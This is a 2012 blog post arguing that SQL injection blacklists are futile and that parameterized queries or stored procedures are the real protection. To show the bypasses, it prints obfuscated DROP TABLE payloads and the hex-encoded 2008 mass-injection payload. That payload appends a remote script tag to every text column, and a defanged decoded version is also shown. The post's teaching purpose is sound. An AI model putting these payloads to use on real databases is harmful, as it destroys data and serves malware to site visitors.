 ```yaml
---
title: Please don’t use blacklists, use parameterized queries or stored procs instead
author: SQLDenis
type: post
date: 2012-04-05T10:55:00+00:00
ID: 1587
excerpt: "Every now and then you will hear how some site will use a blacklist to 'protect' themselves against sql injection. Using a blacklist is very foolish because you can't ever think of all the different ways that the bad guys will try to bypass your little&hellip;"
url: /index.php/datamgmt/datadesign/please-don-t-use-blacklists/
views:
  - 13977
rp4wp_auto_linked:
  - 1
categories:
  - Data Modelling and Design
  - Database Programming
  - IBM DB2
  - Microsoft SQL Server
  - MySQL
tags:
  - best practices
  - security
  - sql injection

---
```

Every now and then you will hear how some site will use a blacklist to 'protect' themselves against sql injection. Using a blacklist is very foolish because you can't ever think of all the different ways that the bad guys will try to bypass your little list.
  
Let's say you have DROP and DROP TABLE in your list.

What about these two

sql
PRINT REVERSE('tset ELBAT PORD')
PRINT convert(VARCHAR(100),0x44524F50205441424C4520746573740000000000)
```

Change PRINT to EXEC() and both will result in DROP TABLE Test

Remember this one?

sql
DECLARE @S VARCHAR(4000);SET @S=CAST(0x4445434C415245204054205641524348415228323535292C40432056415243484152283235
3529204445434C415245205461626C655F437572736F7220435552534F5220464F522053454C45435420
612E6E616D652C622E6E616D652046524F4D207379736F626A6563747320612C737973636F6C756D6E73
206220574845524520612E69643D622E696420414E4420612E78747970653D27752720414E442028622E
78747970653D3939204F5220622E78747970653D3335204F5220622E78747970653D323331204F522062
2E78747970653D31363729204F50454E205461626C655F437572736F72204645544348204E4558542046
524F4D205461626C655F437572736F7220494E544F2040542C4043205748494C4528404046455443485F
5354415455533D302920424547494E20455845432827555044415445205B272B40542B275D2053455420
5B272B40432B275D3D525452494D28434F4E5645525428564152434841522834303030292C5B272B4043
2B275D29292B27273C736372697074207372633D687474703A2F2F7777772E63686B626E722E636F6D2F
622E6A733E3C2F7363726970743E27272729204645544348204E4558542046524F4D205461626C655F43
7572736F7220494E544F2040542C404320454E4420434C4F5345205461626C655F437572736F72204445
414C4C4F43415445205461626C655F437572736F7220 AS VARCHAR(4000));print @S;
```

That becomes this

sql
DECLARE @T VARCHAR(255),@C VARCHAR(255) 
DECLARE Table_Cursor CURSOR FOR SELECT a.name,b.name 
FROM sysobjects a,syscolumns b 
WHERE a.id=b.id AND a.xtype='u' AND (b.xtype=99 OR b.xtype=35 OR b.xtype=231 OR b.xtype=167) 
OPEN Table_Cursor 
	FETCH NEXT FROM Table_Cursor INTO @T,@C 
	WHILE(@@FETCH_STATUS=0) 
	BEGIN 
--I changed EXEC to PRINT, just in case you are foolish enough to run this
		PRINT('UPDATE ['+@T+'] SET ['+@C+']=RTRIM(CONVERT(VARCHAR(4000),['+@C+']))+''<script src=http://SomeFakeSite></script>''') 
		FETCH NEXT FROM Table_Cursor INTO @T,@C 
	END 
CLOSE Table_Cursor DEALLOCATE Table_Cursor 
```

That infected millions of pages in 2008, there are still variants of this one today. A blacklist won't help you in this case.

You can also protect yourself against this attack by denying SELECT permissions on the sysobjects table, your website user should not have access to these tables in general. If you use stored procedures you can just give access to the stored procedures and nothing else.

Every web framework today offers a way to use parameterized queries and or stored procedures. There is really no excuse to fall victim to a SQL injection attack these days. 

Even using an ORM like Hibernate or Entity Framework is protected against SQL Injection because it use sp_executesql with proper parameters behind the scenes.

If you do use stored procedures, you might still have a problem if you are using dynamic SQL inside the proc with EXEC and concatenation instead of sp_executesql with proper parameters

So why do people start out by using code that is prone to SQL injection? I think there are two parts to this. 

  1. It is easier to debug and see what is contained in the string by doing a debug.write/response.write now you can see exactly what is being sent to the DB
  2. There are still books/online examples around that show code that concatenate user input with SQL

Whenever I see code like this when a person asks for help, I immediately tell that person his code is vulnerable to a SQL injection attack, it is my duty to alert this person, it is yours too, we need to educate these people
